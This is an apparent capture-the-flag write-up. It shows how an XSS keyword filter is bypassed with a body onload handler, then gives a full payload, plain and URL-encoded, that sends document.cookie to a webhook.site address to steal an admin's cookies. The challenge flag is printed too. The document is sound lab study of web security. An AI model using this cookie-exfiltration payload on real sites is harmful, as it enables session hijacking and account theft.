


---

## Description

Do you think this clumsy WAF was enough? Nope. Not for me.

`http://ssof2526.challenges.cwte.me:25252`

Note: keywords `script` and `img` are being filtered out as well as different capitalisations of them, e.g. `sCript`, etc.

---

Same website, but this time I can't use `img` and `script`.


After a while looking into XSS payloads (without the **script** and **img** tags), I found this payload, which worked.

`<body onload=alert('piners')>`


Now I just have to build a payload to get the cookies and send them to my webhook.

PAYLOAD:
`"><body onload=fetch("https://webhook.site/e28973d5-ddd8-430a-9c8b-9bb9034753ff?c="+document.cookie)>`

ENCODED PAYLOAD:
`%22%3E%3Cbody%20onload%3Dfetch%28%22https%3A%2F%2Fwebhook%2Esite%2Fe28973d5%2Dddd8%2D430a%2D9c8b%2D9bb9034753ff%3Fc%3D%22%2Bdocument%2Ecookie%29%3E`


Submitting a "bug" with this encoded payload in the search parameter, I managed to get the cookies.


## FLAG
```flag
SSof{A_good_WAF_was_all_I_needed...}
```

---

## Conclusion

Even with the WAF blocking keywords like `script` and `img`, it was still possible to bypass the filter by using other HTML attributes that can execute JavaScript, such as `onload` on the `<body>` tag. This allowed me to run code again, exfiltrate the admin's cookies to my webhook, and retrieve the flag.
